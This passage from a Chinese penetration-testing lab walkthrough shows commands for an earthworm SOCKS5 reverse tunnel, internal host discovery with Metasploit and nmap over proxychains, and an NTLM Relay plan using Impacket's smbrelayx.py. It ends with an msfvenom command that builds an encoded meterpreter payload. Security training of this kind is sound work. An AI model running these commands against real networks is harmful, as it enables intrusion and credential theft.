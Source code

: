![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvla98FzYd1OrG86LTdeZIefHD4J8DZkfOVny3WHH3ibRS9cWmN92tJ6qg/640?wx_fmt=png)image-20210203220401257

路由转发只能将 msfconsole 带进内网，而要想将攻击机上的其他攻击程序也带进内网还需要搭建 socks 代理。我们使用 earthworm 搭建 socks5 反向代理服务。

在攻击机上执行如下：

```
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

在 CentOS 上传 ew_for_linux64，并执行如下命令：

```
./ew_for_linux64 -s rssocks -d 192.168.1.9 -e 1234
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl8Ug18K05qMWkAhW2TjcDpE12SsE9iaIWK8xOOaeEFbSXORMyfybib0BQ/640?wx_fmt=png)image-20210203224720648

然后配置 proxychains，将 socks5 服务器指向 127.0.0.1:1080，之后便可以使用 proxychains 将我们的程序代理进内网了。

接着，我们使用 metasploit 的 auxiliary/scanner/discovery/udp_probe 模块来扫描内网主机存活：

```
use auxiliary/scanner/discovery/udp_probeset rhosts 192.168.93.0-255set threads 5run
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlCiavaHAr1fdxCiclm71wZY8397jb8N3FcJB1Sia0TO69iattRicvvOiaDSZg/640?wx_fmt=png)image-20210203233925643![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlibOqBBhkvh8O7iaSCiaCToqvO502D0K3ia7ibOhZ0xSrdhC2elOOnxszBGQ/640?wx_fmt=png)image-20210204023602480

可知内网中除了 Ubuntu 以外还存在三台 Windows 主机，并且都在 TEST 域中。使用 nmap 进一步探测：

```
proxychains4 nmap -Pn -sT -sV 192.168.93.10 192.168.93.20 192.168.93.30 -F
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlxznhCEsjtaZM4ye96aib8aibjzoPxrXgiajxWsCeK1ddoIpr2EafW13Qw/640?wx_fmt=png)image-20210204020235410

三台主机的信息如上所示，主机的系统版本、端口上运行的服务一目了然。

绘出整个网络环境的图谱图大致如下：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlDic3PLXUgIW7k08Sq03jnKOJhTwnaEribH6qFF3XPTaCGQtxJ4mR7R5w/640?wx_fmt=png)image-20210203153304432

横向移动
----

现在，我们就要想办法渗透内网中的那三台机子。我这里才用的是 NTLM Relay 攻击。

### NTLM Relay 攻击

大致的思路是：攻击者在 CentOS 上面伪造一个恶意的 SMB 服务器，当内网中有机器 Client1 访问这个攻击者精心构造好的 SMB 服务器时， smbrelayx.py 脚本将抓到 Client1 的 Net-NTLM Hash ，然后 smbrelayx.py 用抓取到的 Client1 的 Net-NTLM Hash 重放给内网中的另一台机器 Client2。了解 NTLM Relay 攻击的详情请看我的文章：《内网渗透测试：NTLM Relay 攻击分析》

需要用到 Impacket 工具包中的 smbrelayx.py 工具，在 CentOS 上下载并安装 Impacket，下载地址：https://github.com/SecureAuthCorp/impacket

首先，我们先生成一个正向的 msf 马：

```
msfvenom -p windows/meterpreter/bind_tcp LHOST=192.168.1.9 LPORT=4444 -e x86/shikata_ga_nai -f exe -o shell.exe
```
